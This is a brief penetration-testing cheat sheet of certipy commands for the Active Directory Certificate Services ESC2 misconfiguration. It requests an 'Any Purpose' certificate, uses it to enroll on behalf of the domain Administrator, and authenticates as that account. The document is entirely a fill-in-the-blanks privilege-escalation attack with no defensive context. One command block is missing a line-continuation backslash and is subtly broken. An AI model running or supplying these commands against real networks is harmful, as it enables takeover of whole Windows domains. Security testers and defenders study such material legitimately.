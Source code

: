 # ADCS ESC2

% adcs, certificate, ActiveDirectory, template

## 1-a. Get an “Any Purpose” cert (implicitly an agent)
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC2_ANYPURPOSE_TEMPLATE>
```

## 1-b. Use it to request a cert **on behalf of** Administrator
```
certipy req -u <username> -p '<password>' \
            -dc-ip <DC_IP> -target <CA_FQDN> \
            -dc-host <DC_HOST> -ca <CA_NAME> \
            -pfx <attacker.pfx>
            -template <ESC2_ANYPURPOSE_TEMPLATE> -on-behalf-of '<domain>\\Administrator'
```

## 2. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
